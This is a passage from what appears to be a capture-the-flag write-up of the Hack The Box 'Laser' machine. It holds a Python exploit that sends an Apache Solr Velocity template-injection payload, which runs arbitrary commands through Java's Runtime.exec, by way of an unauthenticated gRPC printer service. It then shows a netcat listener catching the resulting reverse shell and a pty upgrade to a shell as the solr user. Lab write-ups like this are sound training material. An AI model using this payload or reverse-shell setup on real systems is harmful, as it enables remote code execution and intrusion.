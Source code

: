 ```python
data2 = f"http://localhost:8983/solr/staging/select?q=1&&wt=velocity&v.template=custom&v.template.custom=%23set($x=%27%27)+%23set($rt=$x.class.forName(%27java.lang.Runtime%27))+%23set($chr=$x.class.forName(%27java.lang.Character%27))+%23set($str=$x.class.forName(%27java.lang.String%27))+%23set($ex=$rt.getRuntime().exec(%27{cmd}%27))+$ex.waitFor()+%23set($out=$ex.getInputStream())+%23foreach($i+in+[1..$out.available()])$str.valueOf($chr.toChars($out.read()))%23end"

#Can't use direct variable substitution since I have two different vars this time.  Use feed.replace() instead
feed = '{"version": "v1.0", "title": "Printer Feed", "feed_url": "replaceMe"}'

#no creds, so need insecure channel
channel = grpc.insecure_channel("10.10.10.201:9000")
stub = laser_pb2_grpc.PrintStub(channel)

#this @func_set_timeout(5) will make it so execution will continue after 5 seconds; This is needed since it hangs on this part otherwise
@func_set_timeout(5)
def configServer():
  #need to replace the word "replaceMe" from the feed with the configuration string data1
  feed = feed.replace("replaceMe", data1)
  serialized = base64.b64encode(pickle.dumps(feed))
  dataToPrint = stub.Feed(laser_pb2.Content(data = serialized))
  print(dataToPrint.feed)

def get_shell():
  #need to replace the word "replaceMe" from the feed with the command injection string data2
  feed = feed.replace("replaceMe", data2)
  serialized = base64.b64encode(pickle.dumps(feed))
  dataToPrint = stub.Feed(laser_pb2.Content(data = serialized))
  print(dataToPrint.feed)

try:
    #Need to put this in try/except since it definitely causes an exception, which we will ignore and pass
    configServer()
except:
    pass

get_shell()
```

After a lot of trial and error, I got my code to work and set up a netcat listener.  I made my payload a simple callback reverse shell and crossed my fingers.

## Initial Foothold

```text
┌──(zweilos㉿kali)-[~/htb/laser]
└─$ nc -lvnp 8099
listening on [any] 8099 ...
connect to [10.10.15.98] from (UNKNOWN) [10.10.10.201] 36790
python3 -c 'import pty;pty.spawn("/bin/bash")'
solr@laser:~$ id && hostname
uid=114(solr) gid=120(solr) groups=120(solr)
laser
```
